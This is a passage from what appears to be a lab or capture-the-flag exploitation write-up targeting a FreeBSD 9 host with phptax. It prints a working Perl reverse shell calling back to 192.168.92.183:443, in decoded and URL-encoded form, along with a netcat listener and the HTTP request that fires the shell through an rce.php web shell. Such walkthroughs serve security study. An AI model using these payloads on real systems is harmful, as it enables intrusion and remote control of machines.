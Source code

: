 ![writeup.exploitation.steps.4.4](./screenshot12.png)  

5\. We find that the remote system is FreeBSD 9. We tried Bash and Python reverse shells but both failed and as such we fall back on a [Perl reverse shell](https://www.phillips321.co.uk/2012/02/05/reverse-shell-cheat-sheet/) for interactive access:  
``` {.python .numberLines}
perl reverse shell (decoded): perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.92.183:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl reverse shell (url encoded): perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27

nc -nlvp 443
GET /phptax/data/rce.php?cmd=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27 HTTP/1.1
  Host: 192.168.92.185:8080

```

![writeup.exploitation.steps.5.1](./screenshot13.png)  

![writeup.exploitation.steps.5.2](./screenshot14.png)  
